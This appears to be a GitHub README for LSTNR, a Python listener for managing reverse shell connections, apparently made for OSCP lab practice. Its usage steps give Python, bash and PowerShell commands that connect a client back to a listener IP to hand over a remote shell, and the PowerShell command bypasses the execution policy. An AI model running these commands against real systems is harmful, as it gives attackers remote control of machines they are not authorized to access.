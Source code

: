 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

<img width="509" alt="Screenshot 2024-12-30 at 8 17 42 PM" src="https://github.com/user-attachments/assets/375e9059-e448-412c-8677-cac252d1da63" />

<img width="683" alt="Screenshot 2025-01-02 at 12 40 31 PM" src="https://github.com/user-attachments/assets/c7de903a-a981-4619-84a0-ecf7b7bea630" />

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
